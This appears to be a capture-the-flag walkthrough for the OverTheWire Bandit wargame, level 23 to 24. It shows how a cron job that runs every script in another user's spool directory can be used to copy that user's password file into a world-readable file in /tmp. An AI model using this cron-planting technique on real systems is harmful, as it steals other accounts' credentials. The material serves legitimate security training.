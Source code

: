 >NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

>NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

So let's first go to `/etc/crond.d/` and check this level's file.

```bash
bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```

**cat** the file mentioned in here

```bash
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        timeout -s 9 60 ./$i
        rm -f ./$i
    fi
done
```

Once again this **cron** job is being ran as another user in this case **bandit24**. So `myname` will contain `bandit24`, leading us to the `/var/spool/bandit24` directory. The message printed by **echo** tells us that it will execute and delete all scripts in here, so our idea would be to create a script that will **cat** the password file into another file that we create. This very simple to write in a **bash** script, let's do it

```bash
#!/bin/bash

mkdir /tmp/dirforcron
cat /etc/bandit_pass/bandit24 > /tmp/dirforcron/pass
chmod 777 /tmp/dirforcron/pass
```

We will create this file in `/tmp/dirfortest/` and name it `script.sh`.
So what this do is creating a new directory to work in, cat the password file into a file in that directory and then changing the permissions to make it accessible to everyone. Now when we put this file in `/var/spool/bandit24` we have to be sure that the user who will run it has enough permissions to do so. We can do this by doing

```bash
bandit23@bandit:/var/spool/bandit24$ chmod 777 /tmp/dirfortest/script.sh
```

